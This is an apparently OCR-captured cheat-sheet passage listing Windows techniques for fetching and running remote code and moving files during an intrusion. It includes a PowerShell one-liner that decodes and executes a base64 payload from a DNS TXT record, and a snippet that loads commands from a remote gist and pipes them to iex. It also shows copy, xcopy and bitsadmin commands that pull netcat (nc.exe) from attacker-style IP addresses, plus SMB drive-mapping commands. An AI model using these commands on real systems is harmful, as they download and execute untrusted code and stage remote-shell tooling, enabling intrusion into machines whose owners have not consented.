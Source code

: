 
> DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
> The code to execute needs to be a base64 encoded string stored in a TXT record

`IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))`


from @subtee:

```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

Links:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## copy / xcopy / robocopy


```po
xcopy \\10.10.10.132\share\nc.exe nc.exe
copy C:\Temp\nc.exe \\10.10.10.132\c$\Temp\nc.exe
```

## Map / Mount Drives


```
net use Q: \\10.10.10.132\share
pushd \\10.10.10.132\share
mklink /D share \\10.10.10.132\share
smbclient //10.10.10.132/share -U username -W domain
```

## bitsadmin.exe


```
bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe
```


PowerShell also enables interaction with BITS, and enables file downloads and uploads, supports credentials and can use specified proxy servers.

